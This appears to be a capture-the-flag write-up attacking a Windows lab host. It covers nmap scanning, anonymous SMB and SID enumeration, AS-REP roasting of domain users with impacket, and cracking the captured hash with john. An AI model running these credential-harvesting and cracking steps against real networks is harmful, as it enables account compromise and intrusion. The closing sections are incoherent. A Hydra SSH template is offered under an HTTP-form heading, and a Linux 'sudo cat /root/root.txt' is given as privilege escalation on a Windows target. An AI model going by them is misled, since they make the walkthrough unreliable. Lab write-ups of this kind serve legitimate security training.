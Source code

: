 ```yaml
---
layout: post
author: Fr4nSec
tags: [Windows, SMB,]
---
```


CTF challenge having a Windows target. SMB is key to solve it.

## Objectives

- Obtain the user flag
- Obtain the system flag (root)

## Recon

Let's scan the target IP address..

```
nmap -p- -sS --min-rate 5000 -n -Pn 10.10.216.196
```
![scan1](/images/scan1.jpg)

Once we have a list of open ports, let's scan those ports more in depth.

```
nmap -p 53,135,139,389,445,464,636,3268,5985,9389 -sCV 10.10.216.196 > PortScan
cat PortScan
```

![scan2](/images/scan2.jpg)

We can see some information like domain name and the host.

- Domain: vulnnet-rst.local0
- Host: WIN-2BO8M1OE1M1

Port 445 (SMB) is open. Let's see what we can retrieve from there.

```
smbmap -H 10.10.216.196 -u anonymous
```

![smb1](/images/smb1.jpg)

IPC$ seems to be readable. That means we might be able to ennumerate names of domain accounts. Let's try:

```
impacket-lookupsid anonymous@10.10.216.196
```

![smb2](/images/smb2.jpg)

We can see some user names, let's strip out the data we don't need. Copy the result to a file and run the below to keep only the user names.

```
cat fullinfo.txt | grep SidTypeUser | awk -F'\' '{print $2}' | awk -F'(' '{print $1}'
```

![users1](/images/users.jpg)

Now, having a list of users, let's try to harvest AS_REP responses to see if we can get a hash. (The IP changed because i had to restart the target machine).

```
impacket-GetNPUsers 'VULNNET-RST/' -usersfile users.txt -no-pass -dc-ip 10.10.171.250
```
![hash1](/images/hash1.jpg)

We obtained the hash for the user t-skid. We can try brute force it:

```
john hash1 --wordlist=/home/kali/rockyou.txt 
```

![crackedhash](/images/crackedhash.jpg)

## Exploitation

We can use Hydra to brute force HTTP-POST-FORM:


```
hydra -l <user> -P <password list> <IP Address> ssh
```



## Privilege escalation

Let's check if sudo has any additional configuration..

```
sudo cat /root/root.txt
```
